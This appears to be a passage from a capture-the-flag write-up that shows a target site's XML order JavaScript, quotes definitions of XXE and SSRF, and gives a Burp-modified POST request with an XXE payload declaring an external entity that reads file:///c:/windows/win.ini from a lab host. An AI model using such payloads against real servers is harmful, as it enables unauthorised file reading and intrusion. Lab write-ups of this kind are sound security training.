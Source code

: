 ```javascript
    xmlTemplate = xmlTemplate + '<item>' + item + '</item>' + '<address>' + \
         document.getElementById("address").value + '</address></order>';
    var http = new XMLHttpRequest();
    var url = 'process.php';
    http.open('POST', url, true);
    http.setRequestHeader('Content-Type', 'text/xml');
    http.onreadystatechange = function () {
        if (http.readyState == 4 && http.status == 200) {
            alert(http.responseText);
        }
    }
    http.send(xmlTemplate);
}
</script>
```

- The conctact page does not work
- We must do something with the *Order* page (it is the only one)

---

## XML EXTERNAL ENTITY INJECTION

> *XXE* (XML External Entity) injection is a web security vulnerability that allows an attacker
> to interface with an application's processing of XML data. It often allows an attacker to view
> files on the application server filesystem, and to interact with any back-end or internal
> systems that the application itself can access. In some situations, an attacker can escalate an 
> XXE attack to compromise the underlying server or other back-end infrastructure, by leveraging 
> the XXE vulnerability to perform server-side request forgery (SSRF) attacks.

> *SSRF* (Server-side Request Forgery) is a web security vulnerability that allows an attacker to
> cause the server-side application to make requests to an unintended location. In a typical
> SSRF attack, the attacker might cause the server to make a connection to internal-only services
> within the organization's infrastructure. In other cases, they may be able to force the server
> to connect to arbitrary external systems. This could leak sensitive data, such as authorization 
> credentials

- Let's open Burp and modify the order request that we have previously done

```xml
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/xml
Content-Length: 111
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=647e1afpfuteemjqr5bh63ljve


<?xml version = "1.0"?>
<!DOCTYPE foo [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<order>
    <quantity>2</quantity>
    <item>Home Appliances</item>
    <address>ciao</address>
</order>
```
